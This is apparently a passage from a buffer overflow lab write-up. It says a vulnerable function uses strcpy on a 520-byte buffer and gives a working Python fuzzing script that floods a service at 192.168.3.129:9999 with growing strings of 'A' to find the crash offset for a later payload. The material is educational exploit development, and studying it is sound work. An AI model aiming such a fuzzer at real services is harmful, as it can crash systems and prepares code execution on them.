 Now, what makes this a bad function?

The probably_b_ovflw (what I named it), function is what actually invokes the overflow. This is due to it using the insecure `strcpy` function that allows us to tamper with memory addresses. We can see that the variable that gets pased to the overflow function has a size of 520 bytes, allowing us a starting point to find the overflow size.

# Fuzzing
Fuzzing allows us to find the offset (how much to push the payload) so that we trick the app to running our code.

The fuzz script I used:
```
import socket, time, sys

ip = "192.168.3.129"

port = 9999
timeout = 5
prefix = ""

string = prefix + "A" * 2000
def send_name(s):
    sent=False
    name=""
    if not sent:
        print("sent name {}".format(name))
        sent=True
        s.send(bytes(name + "\r\n", "latin-1"))

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)
            s.send(bytes("" + "\r\n", "latin-1"))
            print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
            s.send(bytes(string + "\r\n", "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
```

# Why fuzz?

We are sending bytes to the server in order to make it crash to see where we can start our payload.
